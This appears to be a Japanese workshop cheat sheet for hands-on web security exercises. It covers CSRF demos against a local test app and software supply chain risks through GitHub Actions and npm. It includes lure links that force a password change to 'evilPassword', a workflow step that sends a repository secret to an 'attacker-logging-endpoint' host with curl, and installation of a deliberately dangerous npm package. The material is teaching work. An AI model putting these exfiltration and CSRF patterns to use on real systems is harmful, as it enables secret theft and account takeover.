 # チートシート

## おおまかな流れ

1. ウェブセキュリティの概要
   1. ユーザーの資産の列挙
   2. 攻撃方法の列挙（そのためのフレームワーク）
   3. 主要な脆弱性の概説
2. CSRF の例
   1. CWE での説明
   2. 他のフレームワークでの位置づけ
   3. ハンズオン： GET の例
   4. ハンズオン: cookie の説明と GET ログインの例
   5. ハンズオン： POST の例
   6. ハンズオン： CSRF TOKEN
   7. ハンズオン： 同一オリジンポリシーの確認
   8. ハンズオン： SameSite Cookie
   9. ハンズオン： Custom Header
   10. アプリケーションフレームワークでの対策
   11. まとめ：ブラウザへの注目
3.  ソフトウェア・サプライチェーン
   1. ハンズオン：ソフトウェア・サプライチェーンに乗っかってみる
      1. HonKit
      2. Amazon S3
      3. GitHub Actions
   2. ハンズオン： GitHub Actions Secret の実験
   3. 手元での実験
   4. まとめ：対処の難しさ

## エンドポイント一覧
以下のリポジトリを clone してください
https://github.com/sasakiy84/csrf-demo

1. シナリオ１
  1. この記事について、より詳細に書かれた内容が >> [ここ](http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99) << にあります
  1. http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99
1. GET ログイン確認
   1. http://localhost:3000/2-get-confirm
2. GET ログイン
   1. http://localhost:3000/2-get-login?name=wowow&password=whooo!
3. GET パスワード変更
   1. http://localhost:3000/2-get-password-change?newPassword=yourNewPassword
4. シナリオ2
   1. おめでとうございます！抽選に当選しました！！以下のリンクから景品を選んでください！！！！ >> [当選品選択ページ](http://localhost:3000/2-get-password-change?newPassword=evilPassword) <<
5. POST パスワード変更
   1. http://localhost:3000/3-post-password-change-dangerous
6. POST パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-dangerous
7. CSRF Token パスワード変更
   1. http://localhost:3000/3-post-password-change-csrf-token
8. CSRF Token パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-csrf-token
9. 同一オリジンポリシー XHR
   1. http://localhost:3000/3-post-password-change-with-xml-http-request
10. 同一オリジンポリシー XHR evil
   1. http://127.0.0.1:4000/3-post-password-change-with-xml-http-request
11. 同一オリジンポリシー iframe
   1. http://localhost:3000/3-post-password-change-with-iframe
12. 同一オリジンポリシー iframe evil
   1. http://127.0.0.1:4000/3-post-password-change-with-iframe
13. samesite cookies のセット
   1. http://localhost:3000/5-samesite-attr
14. samesite cookies の確認
   1. http://localhost:3000/5-check-cookies
15. ヘッダーの確認
   1. http://localhost:3000/4-prepare-custom-header
16. 独自ヘッダーのクロスオリジンリクエスト
   1. http://127.0.0.1:4000/4-prepare-custom-header


samesite 確認用の POST フォーム

<div>
<form id="form" action="http://localhost:3000/5-check-cookies" method="post">
  <button type="submit">submit</buttion>
</form>
</div>

## CSRF 参考リンク
- [Rails の CSRF 対策](https://railsguides.jp/security.html#csrf%E3%81%B8%E3%81%AE%E5%AF%BE%E5%BF%9C%E7%AD%96)
- [Laravel の CSRF 対策](https://laravel.com/docs/11.x/csrf)
- [Express の CSRF 対策](https://github.com/expressjs/csurf)

## honkit
- https://honkit.netlify.app/

## GitHub Actions
```yml
# .github/workflows/deploy.yaml
name: CI

on:
  push:
    branches:
      - master
      - main
  workflow_dispatch:

permissions:
  contents: write

env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

jobs:
  deploy:
    runs-on: ubuntu-22.04
    steps:
    - name: Checkout
      uses: actions/checkout@v4

    - name: Setup Node
      uses: actions/setup-node@v4
      with:
        node-version: '20'
    - name: Install dependencies
      run: npm install

    - name: Build Honkit
      run: npm run build
   
    - name: Upload to S3
      run: aws s3 sync --delete --region ap-northeast-1 ./_book s3://YOUR_PUBLISH_BUCKET
```

## GitHub secret 実験
自分の名前を `TEST_SECRET` という変数に入れておく

```yaml
# .github/secret-test.yaml
name: test 1
on:
  workflow_dispatch:

env:
  TEST_SECRET: ${{ secrets.TEST_SECRET }}

jobs:
  test1:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - run: echo $PWD
      - run: echo $TEST_SECRET
      - run: curl http://attacker-logging-endpoint.sasakiy84.net/aaa/$TEST_SECRET
      - run: npm i sasakiy84/dangerous-npm-repository-test
```

以下のコマンドで、ローカルに依存関係を追加する。
```bash
npm i sasakiy84/dangerous-npm-repository-test
```

そして、`node_modules/dangerous-npm-repository-test`　の中身を見る

## ソフトウェア・サプライチェーンの参考リンク
1. codecov
  1. https://about.codecov.io/security-update/
2. codecov のメルカリの発表
  1. https://about.mercari.com/press/news/articles/20210521_incident_report/
3. npm の lifecycle script
  1. https://docs.npmjs.com/cli/v10/using-npm/scripts
4. 実際の npm のライフサイクルスクリプトを使った攻撃事例
  1. https://www.bleepingcomputer.com/news/security/researcher-hacks-over-35-tech-firms-in-novel-supply-chain-attack/
